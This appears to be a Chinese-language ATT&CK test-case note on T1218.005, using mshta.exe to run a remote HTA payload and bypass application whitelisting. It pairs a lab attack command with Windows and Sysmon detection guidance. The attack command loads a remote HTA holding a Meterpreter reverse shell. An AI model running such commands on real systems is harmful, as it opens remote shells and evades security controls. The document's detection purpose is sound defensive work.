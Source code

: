 # T1218.005-Win-使用Mshta.exe执行Payload（白名单）

## 描述

攻击者可能利用**mshta.exe**代理执行恶意代码，规避安全工具的检测（MITRE ATT&CK T1218.005）。`mshta.exe`是Windows内置工具，用于执行HTML应用程序（HTA文件，扩展名`.hta`），由微软数字签名，常被白名单或误报。攻击者可通过`mshta.exe`加载本地或远程HTA文件、内联VBScript/JScript，或直接调用远程脚本（如SCT文件），执行恶意Payload，如Meterpreter反向Shell。此技术利用`mshta.exe`的合法性和其在浏览器安全上下文之外执行的特点，绕过应用程序白名单和浏览器安全设置，适用于防御规避和初始访问。

本案例聚焦于使用`mshta.exe`加载远程HTA文件（如`http://<IP>/Uj6Tcv.hta`），执行Meterpreter反向Shell，模拟攻击者绕过白名单的场景。

## 测试案例

### 测试1：使用Mshta.exe执行远程HTA Payload

攻击者通过`mshta.exe`加载远程HTA文件，触发反向Shell。

**环境要求**：
- 攻击机：Kali Linux（或其他Metasploit支持的系统）
- 靶机：Windows Server 2012（支持Windows 7及以上，需安装.NET Framework 3.5+）
- 工具：Metasploit（生成Payload）、`mshta.exe`（系统自带）
- 权限：普通用户
- 路径：
  - `C:\Windows\System32\mshta.exe`
  - `C:\Windows\SysWOW64\mshta.exe`

**攻击命令**（靶机）：
```cmd
mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta
```

**说明**：
- `http://192.168.126.146:8080/Uj6Tcv.hta`：远程HTA文件，包含Meterpreter Payload。
- 执行触发反向Shell。

**清理命令**：
```cmd
taskkill /IM mshta.exe /F
```

## 检测日志

- **Windows安全日志**：
  - Event ID 4688：进程创建，记录`mshta.exe`的执行（需启用进程跟踪审核）。
  - Event ID 5156：Windows过滤平台（WFP）连接，记录`mshta.exe`的HTTP连接和反向Shell的网络连接（如TCP 4444）。
- **Sysmon日志**：
  - Event ID 1：进程创建，捕获`mshta.exe`的命令行及父进程信息。
  - Event ID 3：网络连接，记录`mshta.exe`的HTTP请求和C2连接。
  - Event ID 7：镜像加载，记录加载的DLL或模块（如`scrobj.dll`）。

**日志配置**：
- 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 部署Sysmon，配置捕获进程创建、网络连接和镜像加载事件。

